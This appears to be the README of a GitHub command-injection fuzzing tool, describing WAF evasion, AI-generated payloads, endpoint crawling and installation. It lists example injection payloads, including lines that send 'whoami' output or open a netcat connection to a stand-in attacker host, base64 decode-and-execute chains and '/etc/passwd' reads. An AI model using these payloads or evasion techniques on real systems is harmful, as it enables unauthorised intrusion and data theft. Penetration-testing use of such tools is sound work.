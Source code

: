# NG-CMD-Injection AI Powered Fuzzer (v6.2)

A next-generation, AI-enhanced **Command Injection vulnerability fuzzer** with both async and sync fallback modes, advanced WAF fingerprinting, and structure-aware payload targeting.

---

## Summary

- **Name**: `NG-CMD-Injection AI Fuzzer`  
- **Version**: 6.2 (May 2025)  
- **Author**: Haroon Ahmad Awan · CyberZeus  
- **Contact**: haroon@cyberzeus.pk  
- **License**: MIT  
- **File**: `ci.py`

---

## Key Features

- **Async & Sync Modes**  
  - Primary async engine using `asyncio`, `aiohttp` & Playwright  
  - Synchronous fallback via `requests` + `ThreadPoolExecutor`  

- **Advanced WAF/IDS Evasion**  
  - Dynamic WAF fingerprinting via ML classifier  
  - Adaptive payload encoding (URL-encode, Unicode escapes) per WAF  

- **AI-Powered Payload Generation**  
  - AI seeded novel payloads  
  - AI mutation of base commands  

- **Structure-Aware Crawling & Fuzzing**  
  - Detects REST, GraphQL, webhook & YAML/CI endpoints  
  - Classifies endpoints (JSON, GraphQL, YAML, etc.) and selects matching payload groups  

- **Comprehensive Injection Categories**  
  - Legacy (in-band, time, DNSlog)  
  - Invented variants: XCI, RICI, EFCI, ICFI, HCI, CVCI, TPCI, UDCI, PPCI, FDI, QCI, BPCI, MSCI, HSCI, NSCI  

- **Comprehensive Injection Categories**  
  - **Legacy**  
    - *In-band*: direct output of commands (e.g. `id` → `uid=`)  
    - *Time*: delay-based detection (e.g. `sleep 5`)  
    - *DNSlog*: out-of-band via DNS beaconing (e.g. `curl http://<dnslog>/$(whoami)`)  
  - **Invented Variants**  
    - **XCI – eXtended Command Injection**  
      Injects inside CLI flags or redirection chains (e.g. `--file=/tmp/$(id)`)  
    - **RICI – Recursive Injection Command Invocation**  
      Double-wrapped/evaluated payloads (e.g. `$(echo $(echo Y2F0IC9...|base64 -d) | sh)`)  
    - **EFCI – Environmental Function Chain Injection**  
      Leverages env vars & eval (e.g. `VAR="curl http://dns"; eval $VAR`)  
    - **ICFI – Input-Controlled Flag Injection**  
      Fakes legitimate flags (e.g. `--user $(ping -c1 attacker.com)`)  
    - **HCI – Header-Controlled Injection**  
      Payloads in HTTP headers (e.g. `User-Agent: $(id)`)  
    - **CVCI – Chained Variable Command Injection**  
      Complex chaining with `&&`, `||`, backticks (e.g. `cmd1 || $(cmd2) && $(cmd3)`)  
    - **TPCI – Type-Punned Command Injection**  
      Misleads type parsers (e.g. injecting into integers: `123;uname -a`)  
    - **UDCI – Unicode-Disguised Command Injection**  
      Obfuscates via Unicode escapes or RTL overrides (e.g. `\u0024\u007B\u0069\u0064\u007D`)  
    - **PPCI – Polyglot Protocol Command Injection**  
      Cross-protocol payloads (e.g. `curl http://127.0.0.1;nc attacker.com 4444`)  
    - **FDI – File Descriptor Injection**  
      Uses FD redirection (e.g. `2>&1; cat /etc/passwd`)  
    - **QCI – Quoted Context Injection**  
      Breaks quoting contexts (e.g. `';uname -a;'`)  
    - **BPCI – Background Process Command Injection**  
      Conceals payloads in background jobs (e.g. `ping -c1 attacker.com &`)  
    - **MSCI – Multi-Stage Chained Injection**  
      Sequential decode & execute (e.g. `eval $(base64 -d <<< ZWNobyAiaWQi)`)  
    - **HSCI – Header-Script Command Injection**  
      Embeds scripts in HTML headers/tags (e.g. `<meta http-equiv="refresh" content="0;url='.../;id'" />`)  
    - **NSCI – Null-Space Command Injection**  
      Exploits IFS or null bytes (e.g. `$(IFS=' ';echo whoami)`, `%00id`)  

- **Payload Obfuscation & Wrappers**  
  - Wrappers: `$(…)`, backticks, `&&`, `||`, `;`  
  - Encodings: Base64, hex, null-byte, URL, double-URL, Unicode escapes  

- **Smart Crawler**  
  - Static HTML & dynamic JS analysis via Playwright  
  - Extracts links, forms, JSON bodies & parameters  

- **Logging & Reporting**  
  - Markdown report (`ng_cmdi_results.md`)  
  - Tagged findings: `IN-BAND`, `TIME` with WAF context  

---

## Installation

```bash
git clone https://github.com/haroonawanofficial/ci.git
cd ci
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt   # aiohttp, playwright, fake-useragent, transformers (optional)
playwright install                # install browsers
